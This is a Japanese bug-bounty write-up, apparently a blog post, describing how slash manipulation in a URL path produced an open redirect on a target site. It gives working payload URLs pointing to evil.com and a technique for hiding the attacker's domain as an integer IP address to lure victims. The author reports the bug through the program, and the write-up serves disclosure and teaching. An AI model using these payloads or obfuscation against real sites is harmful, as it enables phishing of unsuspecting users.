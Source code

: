 # Request-URIのパスからのオープンリダイレクト 実践編

とある企業の非公開報奨金制度で[Request-URIのパスからのオープンリダイレクト](/2018/open_redirect_via_path.md)を発見した。その検出に至るまでの手順が興味深く、HackerOneのレポートにも類似の挙動は見当たらなかったため、詳細をまとめておく。

対象サイトのトップにアクセスした際の正常なレスポンスは以下である。

hxxps://www[.]example.com/

```http
HTTP/1.1 200 OK
...
<title>Example Domain</title>
```

パスの値によるレスポンスの変化を手掛かりに脆弱性を発見した。

## 検出手順

まず、任意のパスに `GET /xxx HTTP/1.1` でリクエストすると、トレイリングスラッシュを追加するリダイレクトが発生する。

hxxps://www[.]example.com/xxx

```http
HTTP/1.1 301 Moved Permanently
...
Location: /xxx/
```

つぎに、ドメイン直後のスラッシュを2つにして `GET //xxx HTTP/1.1` でリクエストするも、レスポンスに変化は見られない。

hxxps://www[.]example.com//xxx

```http
HTTP/1.1 301 Moved Permanently
...
Location: /xxx/
```

しかし、スラッシュを3つにして `GET ///xxx HTTP/1.1` でリクエストすると、トップへのリダイレクトが発生する。

hxxps://www[.]example.com///xxx

```http
HTTP/1.1 301 Moved Permanently
...
Location: /
```

また、トレイリングスラッシュを追加して `GET ///xxx/ HTTP/1.1` でリクエストすると、トップのコンテンツが返る。

hxxps://www[.]example.com///xxx/

```http
HTTP/1.1 200 OK
...
<title>Example Domain</title>
```

さらに、トレイリングスラッシュの直後に `zzz` を追加すると、上位階層の `xxx` を無視したリダイレクトとなる。

hxxps://www[.]example.com///xxx/zzz

```http
HTTP/1.1 301 Moved Permanently
...
Location: /zzz/
```

そこで、`zzz` の直前のスラッシュを2つにしてリクエストすると、レスポンスのLocationヘッダの先頭に `//` を挿入できた。

hxxps://www[.]example.com///xxx//zzz

```http
HTTP/1.1 301 Moved Permanently
...
Location: //zzz/
```

## 実証

Locationヘッダに `//` から始まるスキームを省略した形式の絶対パスを挿入することで、外部サイトへのリダイレクトが発生する。

hxxps://www[.]example.com///xxx//evil.com

![open_redirect](/assets/2018/practical_open_redirect_via_path/open_redirect.png)

上記のURLには攻撃者の所有するドメインが含まれているため、警戒心の強い被害者は不信感を抱く可能性が高い。固定IPアドレスが振られたドメインであれば整数変換により難読化できる。例えば `evil.com` のIPアドレス `66.96.146.129` は `1113625217` に変換できる<sup id="f1">[1](#fn1)</sup><sup id="f2">[2](#fn2)</sup>。パスに含まれる階層 `xxx` は任意の文字列に置き換えられるため、攻撃者は対象サイトの特性に合わせて以下のようなURLに偽装することで被害者を誘導できるだろう。

hxxps://www[.]example.com///articles//1113625217/index.html

```http
HTTP/1.1 301 Moved Permanently
...
Location: //1113625217/index.html/
```

## 所感

Request-URIのパスからの入力に起因する脆弱性の検出は、サイト仕様の把握やアカウント作成などの事前準備が不要なため、気軽に調査を開始できる。今回は `//xxx` と `///xxx` のレスポンスの差異に気付けたため、その挙動をオープンリダイレクトにつなげられた。気軽に何も考えずにスラッシュを3つ入力したことが要因となった。

発見した脆弱性はサイト運営会社の報奨金制度へ報告した。Severity（深刻度）はLowと評価されたため報奨金は$100〜$500になる見込み。さらにスコープ内の他4つのドメインでも同様の脆弱性を発見し、それぞれ認定されている。少額な脆弱性も横展開できるとおいしい。

---

<sup id="fn1">[1](#f1)</sup> DNSの逆引きができないため、実際には `1113625217` にアクセスしても `evil.com` は表示されない。一例として記載する。  
<sup id="fn2">[2](#f2)</sup> 変換後のIPアドレスは[How to Obscure Any URL](http://www.pc-help.org/obscure.htm)を参考に `66 * 256 + 96 = * 256 + 146 = * 256 + 129 =` で求めた。  
